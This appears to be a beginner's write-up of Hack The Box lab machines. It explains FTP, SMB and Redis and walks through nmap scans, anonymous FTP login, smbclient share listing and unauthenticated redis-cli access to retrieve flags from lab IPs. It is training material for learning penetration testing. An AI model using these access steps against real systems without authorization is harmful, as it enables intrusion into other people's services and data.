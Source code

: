 ## 1. FTP

**File Transfer Protocol (FTP)** is a standard network protocol used to **transfer files between two computers** over a network.

You can use FTP to:

- **Upload** files from your local machine to a server
- **Download** files from a server to your computer

## 2.SFTP

**SFTP (SSH File Transfer Protocol)** is a secure file transfer protocol designed based on SSH.
While similar to FTP, it **encrypts all data and login credentials**, making it a modern and secure alternative.

SFTP typically uses **port 22**.

## 3. 🔍 Using Nmap and FTP

First, I connected to the HTB VPN using the provided `.ovpn` configuration file:
```bash
sudo openvpn ~/Downloads/start.ovpn
```
Once connected, I scanned the target machine (10.129.80.226) using Nmap to identify open ports and services:
```bash
nmap -sV -Pn 10.129.80.226
```
- **-sV** This helps identify the software/service running on each open port.
- **-Pn** This is to skips host discovery (ping), assuming the host is online.
- **Ping** is a network utility that sends an ICMP Echo Request to a target server to check if it is online.
If the server is reachable and responds, it replies with an ICMP Echo Reply, essentially saying “I’m here.”
```bash
ping 10.129.80.226
```
The response:

<pre>
PORT     STATE  SERVICE  VERSION
21/tcp   open   ftp      vsftpd 3.0.3
</pre>

From this respond we can know that:

(1) The FTP service is open and running vsftpd version 3.0.3.

(2) Based on the Nmap scan results, it can be inferred that the target machine is likely running a Unix-based operating system.
	    •	Service Info: OS: Unix

The result revealed that port 21 (FTP) was open. I then attempted to connect to the FTP service.

### 📘 FTP Help Information (`ftp -?` or `ftp --help`)

Running `ftp -?` or `ftp --help` provides helpful usage information. It includes:

- ✅ What command-line arguments FTP accepts  
- 🌐 How to connect to an FTP host  
- 🔗 Supported URL formats (e.g., `ftp://`, `file:///`)  
- 📄 Available FTP subcommands such as:
  - `ls` – list files
  - `get` – download file
  - `put` – upload file
 
```bash
ftp 10.129.80.226
```
### 🔐 Anonymous Login in FTP

In the FTP protocol, there's a feature called **anonymous login**.  
This allows users to **log into an FTP server without a username and password**, typically used for public file sharing.

When you successfully log in via FTP, the server responds with:

230 Login successful

-- 
### 📁 Common FTP Commands

- `ls` – Lists files in the current directory  
- `get [filename]` – Downloads a file from the FTP server

--
### Whole process of FTP:
```bash
# Connect to HTB VPN
sudo openvpn ~/Downloads/start.ovpn

# Scan the target machine (10.129.80.226) for open ports and services
nmap -sV -Pn 10.129.80.226

# Connect to the FTP service by using ftp 
ftp 10.129.80.226

# Use anonymous login
Name: anonymous
Password: <just press Enter>

# List files in the directory
ls

# Download the flag file
get flag.txt

# Exit the FTP session
exit

# Read the flag
cat flag.txt
```
--

## 4. 🔍 SMB (Server Message Block)
**SMB** is a **network protocol** used to enable **file, printer, and resource sharing** between computers on a network. It is commonly used for:

- 🖥️ **Network drive sharing** in Windows systems  
- 🔐 **Domain login authentication**  
- 📁 **File and folder transfers**

The most common port used is:
- **-L:** To list the shared resources on a specific host, use the -L option.
- **Port:** `445`  
- **Service name:** `microsoft-ds`

### Whole process of SMB:
```bash
# Scan the target machine (10.129.188.98) to detect open ports and service versions
nmap -sV -Pn 10.129.188.98

# List available SMB shares on the target
smbclient -L //10.129.188.98

# Connect to a specific share named "WorkShares"
smbclient //10.129.188.98/WorkShares

# List the contents of the share
ls

# Change directory within the share
cd <directory>

# Download a file from the share
get <filename>
```

-- 
## 5. 🔍 TCP(Transmission Control Protocol)

**TCP** is a reliable, connection-oriented communication protocol that ensures data sent between two devices is:

- **Not lost** (automatically retransmitted if errors occur)
- **Not duplicated**
- **Delivered in the correct order**

Port **445** is commonly used with TCP for **SMB (Server Message Block)** file-sharing services.
To scan all the ports and help increase the speed of scanning, we can use the `--min-rate=1000` flag:

- `--min-rate` is a **scan timing option** in Nmap that controls how fast probes are sent.
- The number `1000` means:
  > Send **at least 1000 packets per second**.


```bash
#target machine (10.129.168.4)
# -p- means scan TCP ports
# use --min-rate= 1000 increase the scanning time at least 1000 packets per second
sudo nmap -p- -Pn --min-rate=1000 10.129.168.4
```

The response after scanning the port:

<pre>
PORT      STATE  SERVICE
6379/tcp  open   redis
</pre>

From the respond , we can know that there is one port is open which is 6379/tcp, the service is called redis.

**Redis:** It is a high-performance in memeory data store, usaully used as a cache or message broker.

Redis is a in-memory data store and it keep the data in RAM not in the disk, which means that it offer:

Extremely high access rate
Optimally suited for caching, real-time analysis, and temporary data storage
Suitable for queue systems and temporary storage.

🛠️ **redis-cli (Redis Command-Line Interface)**

redis-cli is the command-line tool for interacting with a Redis server. It can be used to:

Connect to a Redis server , execute Redis commands(such as GET, SET ,  and debug and test Redis functionality.

### Whole process of TCP:
```bash
#scan all tcp ports of the target machine(10.129.168.4)
# use --min-rate=1000 to increase the scanning speed
sudo nmap -p- -Pn --min-rate=1000 10.129.168.4

#from the response we can know that the sevice of this port is redis
#use redis-cli to connect target machine
redis-cli -h 10.129.168.4

#Use DBSIZE to check how many key
#The result shows 4 keys
DBSIZE

#Use KEYS* to find the keys name
#The result shows the key of name are: flag, numb, temp , stor
KEYS*

#We can use GET to download the flag file
GET flag

```
![Screenshot showing GET flag result](Tier0/get_flag.jpg)
